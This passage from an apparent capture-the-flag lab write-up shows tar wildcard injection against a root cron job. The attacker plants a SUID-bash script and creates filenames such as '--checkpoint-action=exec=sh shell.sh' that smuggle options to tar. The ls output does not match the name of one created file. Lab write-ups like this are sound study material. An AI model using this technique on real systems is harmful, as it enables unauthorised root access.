 Over here, we can see that there is one job that is being run every half minute which first changes directory to `/home/andre/backup` and then creates a backup of all the files present in that directory. Here we can see that a wildcard `*` is being used and we can use it to escalate our privileges.

The thing with wildcards is that we can store file with names similar to `tar` options/switches and when the wildcard gets replaced by those filenames (in order to add them to the compressed file) then they act like options/switches for `tar` instead of acting as normal filenames. We can exploit the same issue and escalate our privileges as this job is running as `root`.

Before all this we can shift to a much stable `ssh` session as we know the password for "andre's" account.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ ssh andre@10.10.141.169  
andre@cmess:~$ 
```



**Steps:**

1. Create a `shell.sh` file that would create a copy of `/bin/bash` and set its SUID bit. So, as the job is being run by `root` a copy of `root`'s `bash` would be created.

   ```bash
   andre@cmess:~/backup$ nano shell.sh
   
   cp /bin/bash /tmp/myroot
   chmod +s /tmp/myroot
   ```

2. Make the `shell.sh` executable:

   ```bash
   andre@cmess:~/backup$ ls -la
   total 16
   drwxr-x--- 2 andre andre 4096 Apr 23 05:29 .
   drwxr-x--- 5 andre andre 4096 Apr 23 05:26 ..
   -rwxr-x--- 1 andre andre   51 Feb  9  2020 note
   -rwxrwxr-x 1 andre andre   46 Apr 23 05:29 shell.sh
   ```

3. Create files whose name are similar to that of `tar` options:

   ```bash
   andre@cmess:~/backup$ touch /home/andre/backup/--checkpoint=1
   andre@cmess:~/backup$ touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
   andre@cmess:~/backup$ ls -la
   total 16
   drwxr-x--- 2 andre andre 4096 Apr 23 05:32 .
   drwxr-x--- 5 andre andre 4096 Apr 23 05:26 ..
   -rw-rw-r-- 1 andre andre    0 Apr 23 05:32 --checkpoint=1
   -rw-rw-r-- 1 andre andre    0 Apr 23 05:32 --checkpoint=exec=sh shell.sh
   -rwxr-x--- 1 andre andre   51 Feb  9  2020 note
   -rwxrwxr-x 1 andre andre   46 Apr 23 05:29 shell.sh
   ```

   > Keep in mind to specific the full path when creating the files else they won't get created.
